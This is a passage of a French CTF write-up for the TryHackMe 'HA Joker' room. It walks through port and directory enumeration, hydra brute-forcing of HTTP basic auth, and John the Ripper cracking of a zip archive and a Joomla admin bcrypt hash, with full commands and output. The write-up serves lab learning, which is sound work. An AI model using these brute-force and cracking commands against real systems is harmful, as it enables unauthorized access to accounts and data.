









# \[HA Joker]\[CTF]\[TryHackMe]

<figure><figcaption><p>HA Joker Thumbnail</p></figcaption></figure>

" _Batman hits Joker_"

[lien vers TryHackMe.com](https://tryhackme.com/r/room/jokerctf)

## \[Task 1] Enumération des Services

Commençons comme d'habitude avec les classiques Nmap et Gobuster

### 1. [Nmap](outils.md#nmap)

```bash
┌──(kali㉿kali)-[~/THM/joker]
└─$ nmap $IP -A -p- -oN nmap.txt -T4    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-11 16:03 CET
Nmap scan report for 10.10.56.137
Host is up (0.026s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad:20:1f:f4:33:1b:00:70:b3:85:cb:87:00:c4:f4:f7 (RSA)
|   256 1b:f9:a8:ec:fd:35:ec:fb:04:d5:ee:2a:a1:7a:4f:78 (ECDSA)
|_  256 dc:d7:dd:6e:f6:71:1f:8c:2c:2c:a1:34:6d:29:99:20 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA: Joker
|_http-server-header: Apache/2.4.29 (Ubuntu)
8080/tcp open  http    Apache httpd 2.4.29
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Please enter the password.
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=11/11%OT=22%CT=1%CU=32135%PV=Y%DS=2%DC=T%G=Y%TM=673
OS:21D05%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=A
OS:)SEQ(SP=103%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=A)SEQ(SP=103%GCD=1%ISR=10A%T
OS:I=Z%CI=I%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=
OS:M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68
OS:DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%
OS:DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=
OS:G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   25.49 ms 10.9.0.1
2   25.52 ms 10.10.56.137

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.97 seconds

```

### 2. [Gobuster](outils.md#gobuster)

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt" -u $IP -t50 
```

```sh
┌──(kali㉿kali)-[~/THM]
└─$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt" -u $IP -t50     
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.56.137
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 310] [--> http://10.10.56.137/img/]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 5954]
/css                  (Status: 301) [Size: 310] [--> http://10.10.56.137/css/]
/secret.txt           (Status: 200) [Size: 320]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/phpinfo.php          (Status: 200) [Size: 94758]
/server-status        (Status: 403) [Size: 277]
Progress: 663797 / 882244 (75.24%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 663902 / 882244 (75.25%)
===============================================================
Finished
===============================================================
```

Ces deux scans nous permettre de répondre aux premières questions du challenge.

### 3. Réponses aux questions

<table><thead><tr><th width="583">Question</th><th>Réponse</th></tr></thead><tbody><tr><td>What version of Apache is it?</td><td>2.4.29</td></tr><tr><td>What port on this machine not need to be authenticated by user and password?</td><td>80</td></tr><tr><td>There is a file on this port that seems to be secret, what is it?</td><td>secret.txt</td></tr><tr><td>There is another file which reveals information of the backend, what is it?</td><td>phpinfo.php</td></tr><tr><td>When reading the secret file, We find with a conversation that seems contains at least two users and some keywords that can be intersting, what user do you think it is?</td><td>joker</td></tr><tr><td>What port on this machine need to be authenticated by Basic Authentication Mechanism?</td><td>8080</td></tr></tbody></table>


## \[Task 2] Bruteforce

Voici l'écran de 'Login' que nous allons attaquer

<figure><figcaption><p>Ecran de login</p></figcaption></figure>

### 1. Burp

Lançons Burp avec "Proxy Interception" sur "on" et entrons "joker" et "password".

<figure><figcaption><p>Ecran de Burp Suite avec essai de login joker:password</p></figcaption></figure>

Nous constatons que la validation du login est du type **basic user:password en base 64**.

Nous pouvons alors lancer [hydra en mode http-get](https://0xshin.hashnode.dev/basic-http-authentication-and-brute-forcing-w-hydra)

### 2. [Hydra](outils.md#hydra)

```sh
┌──(kali㉿kali)-[~/THM]
└─$ hydra -l joker -P /usr/share/wordlists/rockyou.txt $IP -s 8080 http-get
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-11 16:35:13
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.56.137:8080/
[8080][http-get] host: 10.10.56.137   login: joker   password: hannah
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-11 16:35:36

```

Maintenant que nous avons l'utilisateur **joker** avec son password **hannah**, nous pouvons lacer une exploration plus poussée du site en port 8080 avec Nikto et Gobuster.

### 3. Nikto

```sh
┌──(kali㉿kali)-[~/THM]
└─$ nikto -h $IP:8080 -id "joker:hannah"
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.56.137
+ Target Hostname:    10.10.56.137
+ Target Port:        8080
+ Start Time:         2024-11-11 16:37:37 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ / - Requires Authentication for realm ' Please enter the password.'
+ Successfully authenticated to realm ' Please enter the password.' with user-supplied credentials.
+ /robots.txt: Entry '/modules/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/includes/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/administrator/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/plugins/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/components/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/bin/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/cli/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/layouts/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/tmp/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/language/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/cache/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/libraries/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: contains 14 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /backup.zip: Potentially interesting backup/cert file found. . See: https://cwe.mitre.org/data/definitions/530.html
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /: DEBUG HTTP verb may show server debugging information. See: https://docs.microsoft.com/en-us/visualstudio/debugger/how-to-enable-debugging-for-aspnet-applications?view=vs-2017
+ /web.config: Uncommon header 'tcn' found, with contents: choice.
+ /web.config: ASP config file is accessible.
+ /index.php?module=ew_filemanager&type=admin&func=manager&pathext=../../../etc: EW FileManager for PostNuke allows arbitrary file retrieval. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2047
+ /administrator/: This might be interesting.
+ /bin/: This might be interesting.
+ /includes/: This might be interesting.
+ /tmp/: This might be interesting.
+ /README: README file found.
+ /LICENSE.txt: License file found may identify site software.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /htaccess.txt: Default Joomla! htaccess.txt file found. This should be removed or renamed.
+ /administrator/index.php: Admin login page/section found.
+ 8897 requests: 0 error(s) and 32 item(s) reported on remote host
+ End Time:           2024-11-11 16:42:57 (GMT1) (320 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Pour nous simplifie la vie, nous pouvons filtrer les résultats et ne montrer que les infos 'interesting'

```shell-session
┌──(kali㉿kali)-[~/THM]
└─$ nikto -h $IP:8080 -id "joker:hannah" | grep interesting                
+ /backup.zip: Potentially interesting backup/cert file found. . See: https://cwe.mitre.org/data/definitions/530.html
+ /administrator/: This might be interesting.
+ /bin/: This might be interesting.
+ /includes/: This might be interesting.
+ /tmp/: This might be interesting.
```

### 4. Gobuster

```
┌──(kali㉿kali)-[~/THM]
└─$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u http://$IP:8080 -t50 -U joker -P hannah
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.56.137:8080
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Auth User:               joker
[+] Extensions:              php,html,txt,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/images               (Status: 301) [Size: 320] [--> http://10.10.56.137:8080/images/]
/index.php            (Status: 200) [Size: 10947]
/media                (Status: 301) [Size: 319] [--> http://10.10.56.137:8080/media/]
/templates            (Status: 301) [Size: 323] [--> http://10.10.56.137:8080/templates/]
/modules              (Status: 301) [Size: 321] [--> http://10.10.56.137:8080/modules/]
/bin                  (Status: 301) [Size: 317] [--> http://10.10.56.137:8080/bin/]
/plugins              (Status: 301) [Size: 321] [--> http://10.10.56.137:8080/plugins/]
/includes             (Status: 301) [Size: 322] [--> http://10.10.56.137:8080/includes/]
/language             (Status: 301) [Size: 322] [--> http://10.10.56.137:8080/language/]
/README               (Status: 200) [Size: 4494]
/README.txt           (Status: 200) [Size: 4494]
/components           (Status: 301) [Size: 324] [--> http://10.10.56.137:8080/components/]
/cache                (Status: 301) [Size: 319] [--> http://10.10.56.137:8080/cache/]
/libraries            (Status: 301) [Size: 323] [--> http://10.10.56.137:8080/libraries/]
/robots               (Status: 200) [Size: 836]
/robots.txt           (Status: 200) [Size: 836]
/backup               (Status: 200) [Size: 12133560]
/backup.zip           (Status: 200) [Size: 12133560]
/tmp                  (Status: 301) [Size: 317] [--> http://10.10.56.137:8080/tmp/]
/LICENSE.txt          (Status: 200) [Size: 18092]
/LICENSE              (Status: 200) [Size: 18092]
/layouts              (Status: 301) [Size: 321] [--> http://10.10.56.137:8080/layouts/]
/administrator        (Status: 301) [Size: 327] [--> http://10.10.56.137:8080/administrator/]
/configuration.php    (Status: 200) [Size: 0]
/htaccess             (Status: 200) [Size: 3005]
/htaccess.txt         (Status: 200) [Size: 3005]
/cli                  (Status: 301) [Size: 317] [--> http://10.10.56.137:8080/cli/]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
Progress: 451168 / 1102805 (40.91%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 451778 / 1102805 (40.97%)
===============================================================
Finished
===============================================================

```

Dans les deux cas, nous détectons la présence d'un répertoire '**/administrator/**' ainsi que l'existence d'un fichier '**backup.zip**' comme évoqués dans le challenge.&#x20;

### 5. John The Ripper

Téléchargeons le fichier **backup.zip** et attaquons-le avec **John The Ripper**

```
┌──(kali㉿kali)-[~/THM/joker]
└─$ zip2john backup.zip > backup2john.txt
```

```
┌──(kali㉿kali)-[~/THM/joker]
└─$ john backup2john.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hannah           (backup.zip)     
1g 0:00:00:00 DONE (2024-11-12 09:29) 33.33g/s 273066p/s 273066c/s 273066C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Decompressons backup.zip localement

<figure><figcaption><p>Backup.zip extract here</p></figcaption></figure>

<figure><figcaption><p>Backup.zip password</p></figcaption></figure>

Après avoir extrait le fichier backup.zip, intéressons-nous au **fichier joomladb.sql trouvé dans le sous-répertoire backup/db**&#x20;

```
┌──(kali㉿kali)-[~/THM/joker]
└─$ ls -l backup
total 8
drwxr-xr-x  2 kali kali 4096 Oct 25  2019 db
drwxr-xr-x 17 kali kali 4096 Oct 25  2019 site
                                                                                                                       
┌──(kali㉿kali)-[~/THM/joker]
└─$ ls -l backup/db
total 252
-rw-r--r-- 1 kali kali 257091 Oct 25  2019 joomladb.sql                                                                                                                   
```

Comme suggéré dans le challenge, cherchons les infos concernant un '**Super Duper User**'

```
┌──(kali㉿kali)-[~/THM/joker]
└─$ cat backup/db/joomladb.sql | grep Duper
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com','$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG',0,1,'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
```

Nous savons maintenant que l'id de ce Super Duper User est '**admin**' et nous avons **un hash de son password**.

Confions ce hash à John The Ripper

```
┌──(kali㉿kali)-[~/THM/joker]
└─$ echo '$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG' > admin.hash

```

```
┌──(kali㉿kali)-[~/THM/joker]
└─$ john admin.hash --wordlist=/usr/share/wordlists/rockyou.txt                     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abcd1234         (?)     
1g 0:00:00:05 DONE (2024-11-12 10:01) 0.1919g/s 200.3p/s 200.3c/s 200.3C/s bullshit..piolin
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Nous pouvons désormais répondre à toute une série de questions et toutes ces infos vont nous permettre de prendre pied sur la machine cible dans la phase d'exploitation.

### 6. Réponse aux questions (suite)

<table><thead><tr><th width="580">Question</th><th>Réponse</th></tr></thead><tbody><tr><td>At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?</td><td>hannah</td></tr><tr><td>Yeah!! We got the user and password and we see a cms based blog. Now check for directories and files in this port. What directory looks like as admin directory?</td><td>/administrator/</td></tr><tr><td>We need access to the administration of the site in order to get a shell, there is a backup file, What is this file?</td><td>backup.zip</td></tr><tr><td>We have the backup file and now we should look for some information, for example database, configuration files, etc ... But the backup file seems to be encrypted. What is the password?</td><td>hannah</td></tr><tr><td>Remember that... We need access to the administration of the site... Blah blah blah. In our new discovery we see some files that have compromising information, maybe db? 